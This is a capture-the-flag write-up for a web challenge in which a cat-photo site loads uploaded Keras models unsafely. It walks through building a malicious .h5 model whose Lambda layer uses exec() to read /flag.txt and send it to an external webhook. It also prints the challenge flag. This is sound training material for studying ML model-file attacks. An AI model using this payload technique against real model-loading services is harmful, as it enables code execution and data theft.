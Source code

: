 # Web: CatGPT (491)

The latest and greatest in AI technology being used for that age-old internet diversion....looking at cat photos.

[http://gpt.challs.uscybergames.com/](http://gpt.challs.uscybergames.com/)

Update: Due to possible inconsistencies between local builds made with the provided files and the image on the remote service, here is a copy built on the author's machine for you to test with.

[https://storage.googleapis.com/us-cyber-open-files/cat-gpt.tar](https://storage.googleapis.com/us-cyber-open-files/cat-gpt.tar)

Author: [tsuto](https://github.com/jselliott)

**Files:** cat-gpt.zip (Too big), cat-gpt.tar (Too big, in Google storage link)

## Writeup

Luckily, for this challenge, we are given a zip file of the source code for the website.

First, we need to unzip it to look through the code. 

From the Dockerfile, we can see that the flag.txt file will be in the root directory of the Docker container running the challenge.

```dockerfile
# Copy flag
COPY flag.txt /flag.txt

# Protect flag
RUN chmod 444 /flag.txt
```

Inside model.py, we also can find an interesting function...

```py
def validate_model(model_path):

    try:

        model = tf.keras.models.load_model(model_path,safe_mode=False)

        validation_dir = os.path.join(app.config.get("MODEL_DIR"), 'cats_and_dogs_filtered/validation')

        IMG_SIZE = (150, 150)
        BATCH_SIZE = 32

        validation_datagen = ImageDataGenerator(rescale=1./255)

        validation_generator = validation_datagen.flow_from_directory(
            validation_dir,
            target_size=IMG_SIZE,
            batch_size=BATCH_SIZE,
            class_mode='binary'
        )

        validation_loss, validation_accuracy = model.evaluate(validation_generator, steps=validation_generator.n // BATCH_SIZE,verbose=0)

        return {"accuracy":round(validation_accuracy*100)}
    
    except Exception as e:
        logging.error(e)
        return {"error":"An error occurred while validating your model."}
```

The `safe_mode=False` is pretty interesting here. 

Looking this up, we can find the documentation for TensorFlow: [https://www.tensorflow.org/api_docs/python/tf/keras/models/load_model](https://www.tensorflow.org/api_docs/python/tf/keras/models/load_model)

Here, it says `When safe_mode=False, loading an object has the potential to trigger arbitrary code execution.`, which is very interesting for us.

Specifically, what this is referring to is Lambda layers, which are able to use Python code to transform the values of neurons in a neural network, although this can also do other things such as reading a file, as we will do here.

For this challenge, first, it's useful to build the Docker container locally.

If we run `./build-docker.sh` as root, we can do this, although there are some modifications needed.

If we don't modify anything, we get an error:

![Image 1](Screenshots/1.png)

So, in our Dockerfile, we will need to use `--break-system-packages` for both PIP commands to get this to load.

We also need to change the UID since the "UID is not unique" for the one set in the Dockerfile.

Anyways, once we get this loaded, we can start crafting our payload.

Also, doing more research, it turns out this vulnerability actually has a CVE! It is [CVE-2024-3660](https://nvd.nist.gov/vuln/detail/CVE-2024-3660).

And there is also a proof-of-concept posted [on GitHub](https://github.com/Azure/counterfit/wiki/Abusing-ML-model-file-formats-to-create-malware-on-AI-systems:-A-proof-of-concept).

Using this as an example, we can start writing Python code to generate a payload. 

While this example uses the functional mode of creating TensorFlow models, I find Sequential to be a bit easier.

Anways, we can start with a Python script!

We need to import TensorFlow first:

```py
from tensorflow import keras
```

Then, we need to define our input layer. Since the code we are given defines the images as 150x150 and images have 3 colors, the shape should be `(150,150,3)`.

```py
inputs = keras.Input(shape=(150,150,3))
```

Then, we can reduce this to one neuron in a layer by flattening and then using a dense layer.

```py
flatten = keras.layers.Flatten()
dense1 = keras.layers.Dense(units=1)
```

And now is time for our payload!

Using a webhook, we can make this make a request based on the contents of `/flag.txt`! And we can do this all within a Lambda layer!

```py
outputs = keras.layers.Lambda(lambda x: x if exec("__import__('requests').get(f'https://webhook.site/8a80adf1-94d1-4249-9ff3-7fd05707ddde?flag={str(open(\"/flag.txt\",\"r\").read())}')") else x)
```

And now, to build and save!

```py
model = keras.Sequential([inputs, flatten, dense1, outputs])

model.compile(optimizer="adam", loss="mean_squared_error", metrics=('accuracy',))

model.summary()

model.save("payload_native.h5")
```

Here, we also need the `metrics` parameter to ensure everything loads properly since loss and accuracy are used by the `validate_model` function.

Now, it's time to try this on our Docker container!

If we go to `http://localhost:1337`, we can access the website.

![Image 2](Screenshots/2.png)

Now, if we go to "contribute", we can upload our file and see what happens!

Unfortunately, nothing happens and it actually throws an error.

![Image 3](Screenshots/3.png)

This is because we're using the wrong version of Python!

![Image 4](Screenshots/4.png)
![Image 5](Screenshots/5.png)

While the Docker container is using Python 3.12.3, we are using 3.11.8. This is an issue because when the Lambda layer is serialized by TensorFlow, it compiles this to bytecode which changes by Python version. Therefore, we must at least use the same major version of Python as the server we are targeting. If we re-run our original Docker container with a volume, using the `-v $PWD:/tmp` flag, we can build from this container. However, we need to make sure the entire directory has public write permissions first. To separate, I also changed the Python script to name the output file `payload_docker.h5` instead. 

And now, if we build here and upload, we see it works!

![Image 6](Screenshots/6.png)
![Image 7](Screenshots/7.png)

Though, now we need to know what version of Python the main environment uses... At first, this was not given, but in an update to the challenge, a `.tar` file was included that includes all the information we need to find this exact environment! It turned out that Python was not as updated as it could have been, likely because Docker cached the results of the Python update from a previous container. 

Anyways, if we extract this `.tar` file, we can start doing some forensics to figure out what happened. 

When we start extracting the `layer.tar` file in `1fa339f371eedfc9bf8efc7dafb7218405123118ca7eb36d6ff1bffbc4c36542`, we already start to see what we need!

![Image 8](Screenshots/8.png)

And so now, we know that the server uses Python 3.10! The nice thing is that there is a [Docker container](https://hub.docker.com/_/python) for Python, which we can pull version 3.10 from!

Now, we can run this Docker container and install TensorFlow, and then generate our new payload.

![Image 9](Screenshots/9.png)

And once we have it, we can upload to the main instance and get our flag!

And checking our webhook, we can find the flag!

![Image 10](Screenshots/10.png)

And our flag is `SIVUSCG{c4t_0r_d0g_0rrrrrrr_fl4g}`!
